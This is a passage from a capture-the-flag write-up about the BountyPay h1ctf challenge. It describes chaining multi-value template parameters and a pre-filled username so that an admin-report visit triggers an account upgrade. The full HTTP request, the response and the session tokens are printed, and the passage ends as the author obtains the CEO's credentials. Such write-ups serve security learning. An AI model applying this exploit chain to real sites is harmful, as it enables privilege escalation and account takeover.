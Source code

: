 At that point I managed to get a call to the upgrade endpoint, but the username was still undefined. The username value is extracted using the `$('input[name="username"]')` selector. This element exists in the login template and it's possible to pre-fill the value using the `username` query parameter. Doing so I was able to bring the `username` input field in scope, but I lost the `website.js` file my element with my "avatar" class. I had to find a way to load both templates at the same time. After playing around with the `template` parameter, I managed to load both `home` and `login` templates using the PHP multi-values syntax: [https://staff.bountypay.h1ctf.com//?template[]=login&template[]=home&template[]=ticket&ticket_id=3582&username=sandra.allison#tab1](https://staff.bountypay.h1ctf.com//?template%5B%5D=login&template%5B%5D=home&template%5B%5D=ticket&ticket_id=3582&username=sandra.allison#tab1)

Note that I had to also load the ticket template and load the ticket the Admin sent to sandra. This was necessary to bring sandra's "avatar" in scope and make the click event work:

{F853779}

The final step was then to encode that URL in base64 and report it to the admin:

```
GET /admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnRlbXBsYXRlW109aG9tZSZ0ZW1wbGF0ZVtdPXRpY2tldCZ0aWNrZXRfaWQ9MzU4MiZ1c2VybmFtZT1zYW5kcmEuYWxsaXNvbiN0YWIx HTTP/1.1
Host: staff.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://staff.bountypay.h1ctf.com//?template[]=login&template[]=home&template[]=ticket&ticket_id=3582&username=sandra.allison
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR1B3NVRQRC8rV01aenlqQ2pWU0lGNUlpYkRlOXlZWk1BR0hqTzFPaWQ0bDA0M2xZdXozYld3czZSUG9McFZ4TWlCSGtVR3lDU3FycUZGUjY0QXNHb2lxaC9mWlFkZmNpdWZDVmJVNnNLOHFLT0svRkJSY0MwNTcyMEs4c1lyUzE3UT09
Pragma: no-cache
Cache-Control: no-cache
```

Response:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 01 Jun 2020 04:14:38 GMT
Content-Type: application/json
Connection: close
Set-Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR1B3NVRQRC8rV01aenlqQ2pWU0lGNUlpYkRlOXlZWk1BR0hqTzFPaWQ0bDA0M2xZdXozYkJqRURhdXczckZGTWlCSGtVR3lDU3FycUZGUjY0QXNHbzMybnJQZFZkYUIwc3ZpVWJ4VCtLWmZhYS83Q0IwTlNncy93aDZrbFlPTzE3UT09; expires=Fri, 03-Jul-2020 04:14:38 GMT; Max-Age=2592000; path=/
Content-Length: 19

["Report received"]
```

The response contained a new cookie with Admin permissions. With those permissions I was able to retrieve the CEO's username and password:
